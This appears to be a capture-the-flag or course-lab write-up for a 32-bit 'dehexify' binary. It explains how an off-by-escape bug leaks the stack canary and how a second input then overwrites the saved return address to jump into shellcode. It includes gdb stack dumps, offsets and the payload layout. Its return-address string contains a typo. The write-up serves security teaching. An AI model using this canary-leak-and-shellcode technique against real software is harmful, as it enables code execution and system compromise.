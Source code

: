 # 03 - polaris  Writeup

## Main Idea

top of stack

0xffffd68c  RIP
compiler  pad
0xffffd66c  c.buffer
0xffffd65c  c.answer

stack pointer

The branch in line 25 `if (c.buffer[i] == '\\' && c.buffer[i+1] == 'x')` is vulnerable.
The BUFLEN = 16, when the buffer[12] == '\' and  buffer[13] == 'x', `i` will jump into 16, which is out of the buffer.
And the value in stack will be written into c.answer, and We can get it.

The canary will be the same when the program is running.
We can get the canary from the first stdin and stdout.
And use the canary and overwrite the RIP in the second try.

## Magic Numbers

The address of buffer is `0xffffd66c`, the RIP is `0xffffd68c`, so the location of RIP is 32 bytes away from the start of the buffer.

``` C++
(gdb) x/16x c.buffer
0xffffd66c:     0x04d0203a      0x41410008      0x41414141      0x0800785c
0xffffd67c:     0x3ae2fc37      0x0804d020      0x00000000      0xffffd698
0xffffd68c:     0x08049341      0x00000000      0xffffd6b0      0xffffd72c
0xffffd69c:     0x0804952a      0x00000001      0x08049329      0x0804cfe8
(gdb) i f
Stack level 0, frame at 0xffffd690:
 eip = 0x804922e in dehexify (dehexify.c:22); saved eip = 0x8049341
 called by frame at 0xffffd6b0
 source language c.
 Arglist at 0xffffd688, args:
 Locals at 0xffffd688, Previous frame's sp is 0xffffd690
 Saved registers:
  ebp at 0xffffd688, eip at 0xffffd68c
```

## Exploit Structure

We can run this program many times to determine the position of stack canary in 0xffffd67c.
Here is the stack diagram.

The exploit has two tries:

The first try:

1. Write 12 dummy characters to overwrite `buf`
2. Write "\\x\n", the program will jumpy into the canary.
3. Receive the answer, and canary will be in answer[13:17],  [0:12] means pad, [12] means \\x dehexify, [13:17] means canary, and save canary in python string.

The second try:

1. write 16 dummy characters to buffer
2. write canary
3. write 12 pad, and the RIP will sit in the next byte.
4. overwrite the RIP with magic-code, "\x90\xd6\dff\xff", which is the RIP address('0xffffd68c') + 4
5. write SHELLCODE.

## Exploit GDB Output

When we ran GDB after inputting the malicious exploit string, we got the following output:

```C++
(gdb) x/16x c.buffer
0xffffd66c:     0x41414141      0x41414141      0x41414141      0x00414141
0xffffd67c:     0x3ae2fc37      0x42424242      0x42424242      0x42424242
0xffffd68c:     0xffffd690      0xdb31c031      0xd231c931      0xb05b32eb
0xffffd69c:     0xcdc93105      0xebc68980      0x3101b006      0x8980cddb
```
